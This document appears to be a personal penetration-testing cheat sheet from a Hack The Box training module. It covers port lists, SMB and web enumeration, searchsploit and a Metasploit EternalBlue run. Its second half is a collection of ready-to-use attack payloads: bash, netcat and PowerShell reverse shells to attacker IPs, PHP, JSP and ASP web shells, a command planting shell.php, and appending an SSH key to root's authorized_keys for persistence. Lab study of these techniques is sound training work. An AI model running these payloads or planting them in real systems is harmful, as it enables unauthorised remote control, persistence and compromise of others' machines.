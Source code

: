 ## Getting started Module 

Commong ports : 

| Port | Protocol    | Service        |
|------|-------------|----------------|
| 20/21| (TCP)       | FTP            |
| 22   | (TCP)       | SSH            |
| 23   | (TCP)       | Telnet         |
| 25   | (TCP)       | SMTP           |
| 80   | (TCP)       | HTTP           |
| 161  | (TCP/UDP)   | SNMP           |
| 389  | (TCP/UDP)   | LDAP           |
| 443  | (TCP)       | SSL/TLS (HTTPS)|
| 445  | (TCP)       | SMB            |
| 3389 | (TCP)       | RDP            |

SMB 

    nmap --script smb-os-discovery.nse -p445 10.10.10.40
  
    smbclient -N -L \\\\10.129.42.253

    smbclient \\\\10.129.42.253\\users

    // to add user

    smbclient -U bob \\\\10.129.42.253\\users

gobuster dir :

    gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt

gobuster dns and Vhost :

    gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt
    gobuster vhost -u http://inlanefreight.htb:30437 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain

WhatWeb to extract the version of webservers, frameworks ...etc

    whatweb 10.10.10.121
    whatweb --no-errors 10.10.10.121

Search for common exploits :

1. Downlaod exploitdb  `sudo apt install exploitdb -y`
2. Search for the exploit `searchsploit openssh 7.2`

We can also utilize online exploit databases to search for vulnerabilities, like Exploit DB, Rapid7 DB, or Vulnerability Lab.

Metasploit example : 

1. search exploit eternalblue
2. use exploit/windows/smb/ms17_010_psexec
3. set RHOSTS 10.10.10.40 
4. set LHOST tun0
5. check
6. exploit 

Rev shells 

    bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f

    powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"

Upgrading TTY :

    python -c 'import pty; pty.spawn("/bin/bash")'

    www-data@remotehost$ ^Z

    MysterPedro@htb[/htb]$ stty raw -echo;fg

    [Enter]
    [Enter]
    www-data@remotehost$

after we get interactive shell

either we set Term to `export TERM=xterm` or 


    MysterPedro@htb[/htb]$ echo $TERM

    xterm-256color

    MysterPedro@htb[/htb]$ stty size

    67 318

    www-data@remotehost$ export TERM=xterm-256color

    www-data@remotehost$ stty rows 67 columns 318

Web Shell : 

    php : <?php system($_REQUEST["cmd"]); ?>
    php : <?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
    jsp : <% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
    asp : <% eval request("cmd") %>

Uploading a Web Shell :
Either we upload it thought a vuln, or 

    echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php

    http://SERVER_IP:PORT/shell.php?cmd=id

SSH Keys : 
    ssh-keygen -f key
    echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
    chmod 600 key
    ssh root@10.10.10.10 -i key

Run sudo for other user : 

    MysterPedro@htb[/htb]$ sudo -l

    (user : user) NOPASSWD: /bin/echo

    MysterPedro@htb[/htb]$ sudo -u user /bin/echo Hello World!

    Hello World!
Format xml grep to `xmllint --format -`